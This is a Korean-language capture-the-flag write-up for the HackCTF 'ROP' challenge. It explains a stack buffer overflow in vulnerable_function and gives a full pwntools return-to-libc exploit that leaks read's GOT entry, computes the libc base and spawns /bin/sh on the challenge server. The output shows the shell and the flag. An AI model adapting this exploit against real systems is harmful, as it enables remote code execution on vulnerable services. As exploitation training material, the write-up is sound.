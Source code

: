 # ROP

---

우선 `main()`의 코드를 보자.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

아주 간단하며 취약한 함수 `vulnerable_function()`을 호출한다. 이 함수의 코드를 보자.
```c
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  return read(0, &buf, 0x100u);
}
```

이 함수에서 buf의 위치는 [ebp-0x88]인데 `read()`에서 0x100bytes만큼을 읽어오기 때문에 stackoverflow로 인해서 return주소를 조작할 수 있다.

익스시나리오는 다음과 같다. `write()`함수를 통해서 `read()`의 got를 출력, 즉 `read()`의 주소를 알아낸 후, `read()`의 offset값으로 libc_base의 주소를 알아내어 system("/bin/sh")를 실행시키도록 할 것이다. 도중에는 `read()`의 주소값으로 계산을 하는 과정이 있어야 하기에 `vulnerable_function()`으로 돌아가는 과정이 필요하다. 때문에 필요한 정보들은 다음과 같다.

**write\_plt <br>
read\_got <br>
read\_offset <br>
vulnerable\_function\_address <br>
pppr\_address <br>
system\_offset <br>
binsh\_offset**

하나씩 구해보면 다음과 같다.

```gdb
gdb-peda$ p write
$1 = {<text variable, no debug info>} 0x8048340 <write@plt>
gdb-peda$ p read
$2 = {<text variable, no debug info>} 0x8048310 <read@plt>
gdb-peda$ x/i 0x8048310
   0x8048310 <read@plt>:	jmp    DWORD PTR ds:0x804a00c
gdb-peda$ p vulnerable_function 
$3 = {<text variable, no debug info>} 0x804844b <vulnerable_function>
```

**write\_plt=0x8048340 <br>
read\_plt=0x8048310 <br>
read\_got=0x804a00c <br>
vulnerable\_function\_address=0x804844b**

```gdb
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x3a940 <system>
gdb-peda$ p read
$2 = {<text variable, no debug info>} 0xd4350 <read>
```

**read\_offset=0xd4350 <br>
system\_offset=0x3a940**

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/22.ROP$ objdump -d rop | grep -B4 "ret"
...  
 8048509:	5e                   	pop    %esi
 804850a:	5f                   	pop    %edi
 804850b:	5d                   	pop    %ebp
 804850c:	c3                   	ret    
...
```

**pppr\_address=0x8048509**

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/22.ROP$ strings -tx libc.so.6 | grep "/bin/sh"
 15902b /bin/sh
```

**binsh\_offset=0x15902b**

다음과 같은 코드로 익스할 수 있었다.

```python
from pwn import*

p=remote('ctf.j0n9hyun.xyz',3021)

write_plt=0x8048340
read_plt=0x8048310
read_got=0x804a00c
vulnerable_function_address=0x804844b
read_offset=0xd4350
system_offset=0x3a940
pppr_address=0x8048509
binsh_offset=0x15902b


payload='A'*140
payload+=p32(write_plt)
payload+=p32(pppr_address)
payload+=p32(1)
payload+=p32(read_got)
payload+=p32(4)
payload+=p32(vulnerable_function_address)

p.sendline(payload)

read_address=u32(p.recv(4))

log.info("read_address is "+str(hex(read_address)))

libc_base=read_address-read_offset
system_address=libc_base+system_offset
binsh_address=libc_base+binsh_offset

payload2='A'*140
payload2+=p32(system_address)
payload2+='AAAA'
payload2+=p32(binsh_address)

p.sendline(payload2)

log.info("system_address is "+str(hex(system_address)))

p.interactive()
```

flag는 다음과 같다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/22.ROP$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3021: Done
[*] read_address is 0xf7e16350
[*] system_address is 0xf7d7c940
[*] Switching to interactive mode
$ whoami
attack
$ cat flag
HackCTF{4bcd3fg7ijPlmA4pqrtuvxza2cdef}
```

**flag: HackCTF{4bcd3fg7ijPlmA4pqrtuvxza2cdef}**
